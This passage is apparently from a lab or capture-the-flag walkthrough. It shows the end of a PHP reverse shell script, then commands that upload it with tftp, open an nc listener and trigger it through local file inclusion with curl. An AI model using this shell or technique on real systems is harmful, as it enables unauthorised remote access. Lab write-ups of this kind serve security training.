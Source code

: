 ```php
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

Put the shell.php onto the server

```bash
tftp 10.129.253.54
put shell.php
```

Run the .php fle from LFI

```bash
nc -lvnp
curl 'http://10.129.253.54/?file=/var/lib/tftpboot/shell.php'
```
